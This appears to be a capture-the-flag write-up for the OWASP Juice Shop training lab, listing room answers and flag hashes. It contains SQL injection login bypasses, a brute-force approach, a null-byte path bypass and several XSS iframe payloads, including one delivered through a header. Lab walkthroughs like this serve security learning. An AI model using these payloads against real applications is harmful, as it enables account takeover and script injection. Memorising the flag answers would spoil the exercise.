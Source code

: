 # Let's go on an adventure!

### What's the Administrator's email address?
> *Answer:* admin@juice-sh.op

### What parameter is used for searching?
```
/#/search?q
```
> *Answer:* q

### What show does Jim reference in his review?
> *Answer:* Star Trek


<br><br>
# Inject the juice

### Log into the administrator account!
```
email: ' or 1=1--
password: a
```
> *Answer:* 32a5e0f21372bcc1000a6088b93b458e41f0e02a

### Log into the Bender account!
```
email: bender@juice-sh.op'--
password: a
```
> *Answer:* fb364762a3c102b2db932069c0e6b78e738d4066


<br><br>
# Who broke my lock?!

### Bruteforce the Administrator account's password!
Use Burp Suite and best1050.txt. Got password: admin123
> *Answer:* c2110d06dc6f81c67cd8099ff0ba601241f1ac0e

### Reset Jim's password!
Jim's security question is set to "Your eldest siblings middle name?". (answer: Samuel)
> *Answer:* 094fbc9b48e525150ba97d05b942bbf114987257


<br><br>
# AH! Don't look!

### Access the Confidential Document!
> *Answer:* edf9281222395a1c5fee9b89e32175f1ccf50c5b

### Log into MC SafeSearch's account!
```
email: mc.safesearch@juice-sh.op
password: Mr. N00dles
```
> *Answer:* 66bdcffad9e698fd534003fbb3cc7e2b7b55d7f0

### Download the Backup file!
```
/ftp/package.json.bak%2500.md
```
> *Answer:* bfc1e6b4a16579e85e06fee4c36ff8c02fb13795


<br><br>
# Who's flying this thing?

### Access the administration page!
```
/#/administration
```
> *Answer:* 946a799363226a24822008503f5d1324536629a0

### View another user's shopping basket!
> *Answer:* 41b997a36cc33fbe4f0ba018474e19ae5ce52121

### Remove all 5-star reviews!
> *Answer:* 50c97bcce0b895e446d61c83a21df371ac2266ef


<br><br>
# Where did that come from?

### Perform a DOM XSS!
```
/#/search?q=<iframe src="javascript:alert(`xss`)">
```
> *Answer:* 9aaf4bbea5c30d00a1f5bbcfce4db6d4b0efe0bf

### Perform a persistent XSS!
Use Burp intercept to catch the logout request.<br>
If header request has "GET: /rest/saveLoginIp HTTP/1.1", then add:
```
True-Client-IP: <iframe src="javascript:alert(`xss`)">
```
> *Answer:* 149aa8ce13d7a4a8a931472308e269c94dc5f156

### Perform a reflected XSS!
```
/#/track-result?id=<iframe src="javascript:alert(`xss`)">
```
> *Answer:* 23cefee1527bde039295b2616eeb29e1edc660a0


<br><br>
# Exploration!

### Access the /#/score-board/ page
> *Answer:* 7efd3174f9dd5baa03a7882027f2824d2f72d86e

